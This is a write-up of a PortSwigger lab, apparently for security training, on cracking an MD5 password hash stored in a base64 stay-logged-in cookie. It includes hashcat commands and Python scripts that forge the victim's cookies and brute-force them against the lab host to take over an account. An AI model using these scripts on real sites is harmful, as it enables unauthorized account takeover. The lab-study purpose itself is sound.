




# Brute-forcing a stay-logged-in cookie

## Lab Overview

- **Platform**: [Portswigger](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)
- **Difficulty**: Practitioner
- **Vulnerability**: Authentication
- **Date Solved**: 2025-11-28
- **Author**: Ammar Sabit

## Description 



- This lab stores the user's password hash in the stay-logged-in cookie, which makes it susceptible to offline brute-force attack.
- The lab gave us our own user credentials(**Username:** wiener, **Password:** peter), so we can log in and play with the application logic
- And finally candidate password list for the attack 

## Steps to Reproduce

### Understanding the application's functionality

1. Login with the given credential and inspect the stay logged in cookie.

- The first step is inspecting the application logic.To do that we first need to login with our credential and identify what types of cookie we receive for staying logged in
- I logged in and when I inspect the cookie jar there are two cookies named **session** and **stay-logged-in**. Because session cookies are a temporary randomly generated values our target will be the **stay-logged-in** one
- The cookie in my cookie jar is 

```
Name: stay-logged-in
Value: d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
```

2. Identifying and decoding the token

- We can see that the value of the cookie only contains uppercase letters (A-Z), lowercase letters (a-z) and numbers (0-9) which suggests the cookie is just base64 encoded. 
- We can use either *online Base64 decoders* or the linux built in *base64* command to decode the cookie.

```bash
echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d 
```
- After we decode the token we get the following output

```
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

3. Brute-forcing the token

- From the decoded value we see our Username **wiener** and some kind of unknown value 
- We can make an educated guess that the value is likely a password hash
- We can use an online hash identifier or a command line tool called **hash-id**. 
- Using the following command we can identify what kind of hash it is.

```bash
hash-id -h 51dc30ddc473d43a6011e9ebba6ca770
``` 
- And we get the hash is **MD5**
- We are now pretty sure the value paired with the Username is some kind of MD5 hashed value we can try to brute-force it and see what value is it holding 
- For the brute-force attack we do need two things. A brute forcing tool such as **Hash cat** or **Johntheripper**. And a word-list; there are so many word-list out there for password brute forcing but the most popular one is **Rockyou** 
- I am going to use Hashcat but you can use any other tool
- If you don't have either hashcat installed or Rockyou word list downloaded you can use the following command to set both up

```bash
sudo apt install hashcat
wget https://weakpass.com/download/90/rockyou.txt.gz
gunzip rockyou.txt.gz
```

- We've got everything we need the hash, the type of the hash, brute-forcing tool and a word list. what left is using our hash-cracking tool to brute-force our token. we can achieve that using the following command 

```bash
hashcat -a 0 -m 0 "51dc30ddc473d43a6011e9ebba6ca770" ~/PATH/rockyou.txt
```
-a: attack-mode — tells hashcat how to generate password candidates. there are several  attack modes; mode 0 is the standard dictionary attack.
-a 0: Straight / Dictionary — Takes each line from your word-list exactly as-is
-m: hash-type: Hashcat represents hash types using numeric codes. you can see each code by typing `hashcat --help`. in our case the hash-type that corresponds to MD5 is `0`



- As we can see in the screenshot the hash in the cookie is our own password **peter**. we can conclude that the app is providing the staylogged in cookie just by base64 encoding **username:passwordhash**. 
- Now we've got the full picture of the application the next step will be to target our victim **carlos** and access his **My account** page

### Targeting the victim

- We are already told the username of our victim is **carlos**. We only need his password hash to recreate his stay-logged-in cookie.
- We are provided with candidate passwords. What we need to do is to MD5 hash every password and base64 encode in format of **carlos:passwordhash** and send an automated request and look for any response with success. 
- Once we got the cookie that returned `200` we can either use the cookie to access the **carlos**'s  myaccount page or we can also keep track of the password that generated that cookie and login with that password and access his my account page directly 
- In either of case we do need to hash every candidate password and then base64 encode the hash and then send every candidate cookie and look for the response with status code of 200. 
- Doing this all manually would take a whole day. For that reason it is better to write an automating script; we can either use **curl** or **python** for this purpose. Am going to use  python but you can achieve the same using in bash
- I wrote the following python script that automatically hash all candidate passwords in hash.txt and then base64 encode **username:passwordhash** pair and finally send the created **stay-logged-in** cookie using curl and reads for the response code and print the password and cookie that resulted in the **200** response code

```python
import base64
import subprocess
import hashlib

def encodeB64(str):
    bytes_data = str.encode('utf-8')
    bytes_encoded = base64.b64encode(bytes_data)
    base64_encoded = bytes_encoded.decode('utf-8').strip("=")
    return base64_encoded

def hashMD5(str):
    md5_hash = hashlib.md5(str.encode('utf-8')).hexdigest()
    return md5_hash

def sendRequest(victim, cookie):
    url = f"https://0a1c005703e99d54803e3fde002f0053.web-security-academy.net/my-account?id={victim}" # replace with your own lab id
    res_code = subprocess.run(["curl", "-s", "-o", "/dev/null", "-w", "%{http_code}", "-X", "GET", url, "-b", f"stay-logged-in={cookie}"], capture_output=True, text=True).stdout
    return int(res_code)

def main():
    cands = open("cand.txt", "r").readlines()
    victim = "carlos"
    for cand in cands:
        paswd_hash = hashMD5(cand.strip())
        cookie = encodeB64(f"{victim}:{paswd_hash}")
        req = sendRequest(victim, cookie)

        if req == 200:
            print(f"password: {cand}, stay-logged-in: {cookie}")
            break

main()
```

- **encodeB64** - This function base64 encode the str passed to it as a parameter using the python built in base64 module
- **hashMD5** - This function MD5 hash the str passed to it as a parameter and return the output
- **sendRequest** - This function run a curl command using the python's build in `subprocess` module with the victim and cookie values passed as a parameter. I could use the python's `request` library but I don't want to rellay on third party libray which would require creating a `venv` and installing the library using `pip`. Basically what the culr command doing is it send a get request to the url specified with header value of stay-logged-in and redirects everythig the server return to **/dev/null** so that we would get only the response code. and finally returns the res_code in int.
- **main** – The main function reads the `cand.txt` file, which contains all the candidate passwords provided in the lab description. It then hashes each password and formats it as a `victim:hash` pair before passing it to the `encodeB64` function. The value returned is then sent to the `sendRequest` function.
Finally, `sendRequest` returns the response code for each request. If the response code is 200, the script prints both the correct password and the valid stay-logged-in cookie to the terminal, which can be used to access the victim’s account.

- However relying on curl for brute-force attack is so slow it is impractical. For that reason it is better to use python script to only generate all possible stay-logged-in cookies and use burp intruder for the brute-forcing purpose 
- I modified the above script to write all possible stay-logged-in cookie to cookies.txt file

```python
import base64
import hashlib

def encodeB64(str):
    bytes_data = str.encode('utf-8')
    bytes_encoded = base64.b64encode(bytes_data)
    base64_encoded = bytes_encoded.decode('utf-8').strip("=")
    return base64_encoded

def hashMD5(str):
    md5_hash = hashlib.md5(str.encode('utf-8')).hexdigest()
    return md5_hash

def main():
    cands = open("cand.txt", "r").readlines()
    victim = "carlos"
    cookies = open("cookies.txt", "w")
    for cand in cands:
        paswd_hash = hashMD5(cand.strip())
        cookie = encodeB64(f"{victim}:{paswd_hash}")
        cookies.write(f"{cookie} \n")
    cookies.close()

main()
```

- When we run the script it generate a new file with name "cookies.txt". This is a list of all possible stay-logged-in-cookie of carlos 

- We have got a list of cookies. The next step will be using burp intruder to deliver automated requests




- As we can see in the screenshot attacked there is one request with status code of 200. When we inspect the request that resulted in 200 we can see the that stay logged-in-cookie 
- We've got the victim's cookie now we can do everything he can do. 
- We replace our own stay-logged-in cookie with the one we brute forced and access the my-account page of carlos. But our automated request was sent to **/my-account** which resulted in an automatic **lab solve**



## Impact

- Storing username and password in a cookie is a very bad practice which makes brute-forcing both username and password a very easy task
- Anyone with the stay-logged-in cookie of the victim would able to do anything the victim can do resulting in a full account takeover
- In worst case if the attacker is targeting a high-privilege user like **admin** the impact would be disastrous. The attacker would have a full admin privilege

## Prevention


> **Never** store sensitive data such as usernames or password hashes inside client-side
 cookies. Instead, generate a random session token that cannot be guessed, or use a secure
 mechanism such as JWT with proper signing.
